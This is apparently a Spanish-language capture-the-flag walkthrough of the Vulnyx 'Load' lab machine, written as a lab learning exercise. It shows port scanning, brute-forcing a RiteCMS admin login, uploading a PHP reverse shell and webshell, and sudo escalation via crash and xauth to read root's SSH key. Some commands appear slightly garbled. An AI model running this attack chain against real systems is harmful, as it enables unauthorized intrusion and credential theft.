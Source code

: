 # Vulnyx-Load

## Identificación de la IP en la red
```bash
arp-scan -I eth0 --localnet
# (IP-victima)  08:00:27:d7:78:45       PCS Systemtechnik GmbH
```

## Escaneo de Puertos
```bash
nmap -p- -sV -sC -sS --min-rate 2000 -vvv -n -Pn (IP-victima) -oN nmap
# 22/tcp   abierto    ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
# 80/tcp   abierto    http    Apache httpd 2.4.57 ((Debian))
# [Contenido de robots.txt]: /ritedev/
```

## Fuzzing
```bash
wfuzz --hc=404 -u http://(IP-victima)/ritedev/FUZZ.php -w /usr/share/wfuzz/wordlist/general/medium.txt
# admin.php
```

Dentro de `admin.php` encontramos un panel de login. Intentaremos realizar un ataque de fuerza bruta utilizando Burp Suite.

## Fuerza Bruta con Burp Suite
1. Abrimos Burp Suite.
2. Configuramos el proxy.
3. Interceptamos la solicitud.
4. Enviamos al Intruder.
5. Por defecto, usamos "admin" como usuario.
6. Mediante Sniper, enviamos ataques de fuerza bruta al password.

Descubrimos que la contraseña es "admin". Ahora tenemos el usuario y la contraseña. Ingresamos y descubrimos que podemos subir documentos en formato .php. Procedemos a subir un archivo de reverseshell en php.

Al subir el archivo, no encontramos la ruta. Buscamos en internet la posible ruta por defecto donde se sube el archivo y encontramos varias opciones.

```bash
# Ejemplos encontrados:
http://(IP-victima)/ritecms.v3.0/webshell.php?cmd='whoami'
http://(IP-victima)/ritecms.v3/webshell.php?cmd=whoami
http://(IP-victima)/webshell.php?cmd=whoami
http://(IP-victima)/ritecms.v3.0/media/webshell.php?cmd=whoami
http://(IP-victima)/ritecms.v3.1.0/media/webshell.php?cmd=whoami
http://(IP-victima)/ritecms.v3.1/media/webshell.php?cmd=whoami
http://(IP-victima)/ritecms.v3.1.0/webshell.php?cmd=whoami
```

Después de probar varias opciones, encontramos los siguientes resultados positivos:

```bash
http://(IP-victima)/ritedev/media/pwned.phpwp-load.php?cmd=%27whoami%27
# www-data
```

Dado que exploit-db nos proporciona un ejemplo de webshell, probamos con eso, pero preferimos ingresar directamente mediante la reverseshell.

```bash
http://(IP-victima)/ritedev/media/pentestmonkey.php
```

Ahora estamos dentro.

```bash
whoami
# www-data
```

Toca realizar el tratamiento de la TTY y escalar privilegios.

```bash
script /dev/null -c bash
control+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

```bash
sudo -l
# (travis) NOPASSWD: /usr/bin/crash
```

Podemos ejecutar `crash` como `travis`.

```bash
su -u travis /usr/bin/crash -h
# !/bin/bash
```

Al poner `-h`, nos permite ejecutar algunos comandos.

```bash
!/bin/bash
```

Ya nos da una bash como `travis`.

```bash
whoami
# travis
```

```bash
sudo -l
# (root) NOPASSWD: /usr/bin/xauth
```

Podemos ejecutar `xauth` como root.

```bash
/usr/bin/xauth -h
```

Entre las opciones, podemos leer comandos desde archivos con el comando "source".

```bash
source filename   # read commands from file
```

Podemos leer archivos, así que apuntamos a leer el `id_rsa` de root.

```bash
sudo /usr/bin/xauth source /root/.ssh/id_rsa+
# Esa es la ruta por defecto del id_rsa
```

Ya tenemos el `id_rsa` de root. Ahora toca modificarlo para poder utilizarlo.

```bash
nano id_rsa
# Pegamos el contenido
```

Toca modificarlo para que quede correcto.

```bash
cut -d " " -f 5 archivo.txt
# Esto elimina las columnas innecesarias
```

```bash
sed 's/"//g' archivo.txt
# Esto elimina las comillas
```

Ahora, dejamos bien la estructura reemplazando el principio y el final por lo siguiente:

```
-----BEGIN RSA PRIVATE KEY-----
-----END RSA PRIVATE KEY-----
```

Ingresamos vía SSH con el `id_rsa`.

```bash
ssh -i id_rsa root@(IP-victima)
```

```bash
whoami
# root
```

Ahora somos root (:D).
